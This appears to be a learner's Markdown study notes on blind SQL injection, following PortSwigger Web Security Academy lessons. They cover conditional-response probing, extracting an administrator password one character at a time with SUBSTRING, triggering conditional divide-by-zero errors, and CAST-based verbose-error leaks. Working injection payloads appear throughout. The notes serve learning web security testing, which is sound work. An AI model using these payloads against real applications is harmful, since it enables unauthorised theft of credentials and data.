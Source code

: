 More info: [SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Blind SQLi
[What is Blind SQL Injection? Tutorial & Examples | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-responses)
- The application is vulnerable to SQLi but the HTTP responses do not contain any results or errors.

#### Triggering conditional responses
Ex: Say, the tracking cookie value is verified by the application, we can check the differences in responses of: `..idnoxyz' AND '1'='1` and `...idnoxyz' AND '1'='2`
- If there is a noticeable difference, use:
Substring => `SUBSTRING(String,start,length)`
```
..xyz' AND SUBSTRING((SELECT password from Users Where Username='Admin'),1,1) > 'm
If true, go with t, if false, check the letters in between.
```

This is one way to retrieve data
#### Error-based SQLi
- Retrieving sensitive data from the database by learning through errors.

##### Exploiting blind SQLi by triggering conditional errors:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a -- Because this is a false satement, it doesn't trigger the divide-by-zero error.

xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a -- Triggers the divide by zero error
```

This is similar to exploiting by triggering the conditional responses:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
##### Extracting sensitive data via verbose SQL error messages:
- A misconfigured database can result in a verbose error message: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
- One way of achieving this is to use the `CAST()` function, which enables you to convert one data type to another. For example, consider a query containing the following statement:
	`CAST((SELECT example_column FROM example_table) AS int)`

- Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:
	`ERROR: invalid input syntax for type integer: "Example data"` => Example_data retrieved.
	This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query.
